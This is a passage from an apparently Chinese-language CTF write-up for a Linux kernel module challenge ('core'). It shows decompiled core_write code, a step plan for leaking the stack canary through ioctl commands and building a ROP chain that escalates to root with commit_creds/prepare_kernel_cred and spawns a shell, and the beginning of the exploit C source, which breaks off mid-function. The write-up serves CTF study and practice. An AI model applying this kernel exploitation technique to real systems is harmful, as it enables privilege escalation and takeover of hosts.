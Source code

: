 core_write

```c
signed __int64 __fastcall core_write(__int64 a1, __int64 a2, unsigned __int64 a3)
{
  unsigned __int64 v3; // rbx

  v3 = a3;
  printk("\x016core: called core_writen");
  if ( v3 <= 0x800 && !copy_from_user(name, a2, v3) )
    return v3;
  printk("\x016core: error copying data from userspacen");
  return 0xFFFFFFF2LL;
}
```

写name

思路

1. 先存一波cs,rflags,sp,ss，埋伏他一手

2. /tmp/kallsyms拿函数地址

3. 0x6677889C命令设置off，0x6677889B命令泄露canary

4. core_write在name构造rop链

   提权、回用户态、起shell

5. 0x6677889A，🐏了它

exp

```c
// gcc exploit.c -static -masm=intel -g -o exploit
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>

void spawn_shell()
{
    if(!getuid())
    {
        system("/bin/sh");
    }
    else
    {
        puts("[*]spawn shell error!");
    }
    exit(0);
}

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t raw_vmlinux_base = 0xffffffff81000000;

size_t vmlinux_base = 0;
size_t find_symbols()
{
    FILE* kallsyms_fd = fopen("/tmp/kallsyms", "r");

    if(kallsyms_fd < 0)
    {
        puts("[*]open kallsyms error!");
```